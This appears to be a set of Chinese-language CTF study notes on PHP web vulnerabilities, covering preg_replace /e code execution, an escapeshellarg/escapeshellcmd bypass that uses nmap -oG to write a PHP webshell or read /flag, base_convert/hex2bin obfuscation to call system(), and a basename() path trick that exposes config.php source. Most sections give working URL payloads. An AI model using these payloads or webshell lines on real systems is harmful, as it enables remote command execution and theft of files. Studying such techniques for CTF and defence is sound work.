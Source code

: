 ## **preg_replace函数代码执行**
正则替换函数
```
function getFlag(){
    @eval($_GET['cmd']);
}

//将每个get传参的参数和参数值进行匹配
foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}
```



```
如果传参
参数 "/([A-Z])/"; // 匹配大写字母的正则表达式
值 "Hello World"

preg_replace 函数来将字符串中的大写字母转换为小写字母：
这段代码执行后会输出 "hello world"
```
这里的漏洞出在preg_replace /e 模式下。
值用${}包裹后会代码执行。
```
比如我们传入  ?.*={${phpinfo()}}
原句：preg_replace('/(' . $re . ')/ei','strtolower("\\1")',$str); 
就变成preg_replace('/(' .* ')/ei','strtolower("\\1")',{${phpinfo()}});

又因为$_GET传入首字母是非法字符时候会把 .（点号）改成下划线，因此得将\.*换成\S*

所以payload：?\S*=${getFlag()}&cmd=system('ls /'); 
此时getFlag()会被代码执行，调用函数，即可使用cmd。
```


^
## **过滤函数**
```
$host = $_GET['host'];
$host = escapeshellarg($host);
$host = escapeshellcmd($host);
echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
```
利用特性，和namp参数写文件webshell
```
?host=' <?php @eval($_POST["cmd"]);?> -oG test.php '
或直接读
?host=' <?php echo `cat /flag`;?> -oG test.php '
```



^
## **进制转换函数**
```
base_convert(37907361743,10,36) = "hex2bin"

hex2bin(5f 47 45 54) = "_GET"

dechex(1598506324) =  "5f 47 45 54"

_GET = base_convert(37907361743,10,36)(dechex(1598506324))

变量覆盖
/?c=$p=base_convert(37907361743,10,36)(dechex(1598506324));($$p){pi}(($$p){abs})&pi=system&abs=cat /flag
```


^
^
## **basename()场景漏洞**
源代码：
```
if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}
if (isset($_GET['source'])) {
    highlight_file(basename($_SERVER['PHP_SELF']));
}
```
我们要包含高亮config.php
`$_SERVER['PHP_SELF']`会获取我们当前的访问路径，并且PHP在根据URI解析到对应文件后会忽略掉URL中多余的部分，即若访问存在的index.php页面，如下两种UR均会访问到。
```
/index.php
/index.php/dosent_exist.php
```
`basename`可以理解为对传入的参数路径截取最后一段作为返回值，但是该函数发现最后一段为不可见字符时会退取上一层的目录，basename只能转换ASCII码内的字符。即：
```
$var1="/config.php/test"
basename($var1)	=> test
$var2="/config.php/%ff"
basename($var2)	=>	config.php
```
`$_SERVER['PHP_SELF']`提交index.php/config.php时，经过basename过滤后只剩下config.php，需要绕过的只有正则，basename只能转换ASCII码内的字符，通过超过ASCII码范围的字符进行绕过。

接下来就显然了，通过构造URI让其包含`config.php`这个文件名再让`basename`函数截取出来，之后通过请求参数`source`就能显示`config.php`的源码，也就能见到`flag`了。
```
/index.php/config.php/%ff?source
```


